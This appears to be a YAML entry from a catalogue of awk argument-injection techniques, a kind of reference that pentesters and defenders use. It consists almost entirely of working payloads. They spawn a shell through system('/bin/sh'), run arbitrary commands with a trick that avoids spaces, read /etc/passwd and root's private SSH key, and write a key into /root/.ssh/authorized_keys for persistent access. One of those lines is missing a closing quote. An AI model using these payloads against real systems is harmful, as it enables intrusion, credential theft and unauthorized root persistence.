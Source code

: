 ```yaml
---
description: Awk injection is no different than other command injection vulnerabilities, including SQL injection. Awk is an incredibly powerful (yet simple) tool, so the possibilities are endless. See [this report](https://bugs.chromium.org/p/chromium/issues/detail?id=766253) for an example.
functions:
  shell:
    - description: Can be used to execute arbitrary commands on a system and spawn shells.
      code:
        awk 'BEGIN{system("/bin/sh")}'
  command:
    - description: Can be used to execute arbitrary commands on a system.
      code: |
        awk 'BEGIN {system("ls"); exit}' /dev/null
        awk 'system("ls")' /etc/passwd # file must exist and command will be executed as many rows there are in the file
        awk '//{}BEGIN{system(sprintf("uname%c-aa",32))}' # use sprintf(%c,32) if we cannot use spaces.
  file-read:
    - description: Read an arbitrary file.
      code: |
        awk 'BEGIN{while((getline line<"/etc/passwd")>0){print line}}' /dev/null
        awk '//' /etc/passwd /etc/hostname /root/.ssh/id_rsa # prints the contents of all three files.
  file-write:
    - description: Write to an arbitrary file
      code: |
        awk 'BEGIN{print "ssh-rsa ..." > "/root/.ssh/authorized_keys}' /dev/null
---
```

